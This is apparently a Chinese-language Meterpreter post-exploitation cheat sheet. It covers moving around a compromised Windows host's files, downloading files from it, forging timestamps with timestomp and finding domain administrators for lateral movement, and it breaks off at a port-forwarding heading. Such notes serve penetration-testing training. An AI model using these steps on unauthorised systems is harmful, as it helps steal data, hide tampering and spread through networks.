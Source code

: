 
### 文件操作

**操作文件系统**
```bash
ls:列出当前路径下的所有文件和文件夹.
pwd 或 getwd:查看当前路径
search:搜索文件,使用 search -h查看帮助.
cat:查看文件内容,比如 cat test.txt.
edit:编辑或者创建文件.和 Linux 系统的 vm 命令类似,同样适用于目标系统是 windows 的情况.
rm:删除文件.
cd:切换路径.
mkdir:创建文件夹.
rmdir:删除文件夹.
getlwd 或 lpwd:查看自己系统的当前路径.
lcd:切换自己当前系统的目录.
lls:显示自己当前系统的所有文件和文件夹.
```

**上传和下载**
```bash
upload <file> <destination>         # 上传文件到 Windows 主机
# 注意:使用 -r 参数可以递归上传上传目录和文件

download <file> <path to save>      # 从 windows 主机下载文件
# 注意:Windows 路径要使用双斜线
# 如果我们需要递归下载整个目录包括子目录和文件,我们可以使用 download -r 命令
```

**搜索文件**
```bash
search -f *config*
```

**改变文件时间**
```bash
timestomp -v a.txt                  # 查看 a 的时间戳
timestomp a.txt -f b.txt            # 使用 b 的时间覆盖 a 的时间
```

---

### 横向

**域管理员嗅探**

```bash
use post/windows/gather/enum_domain
set session 1
exploit
```

---

### 端口转发和内网代理
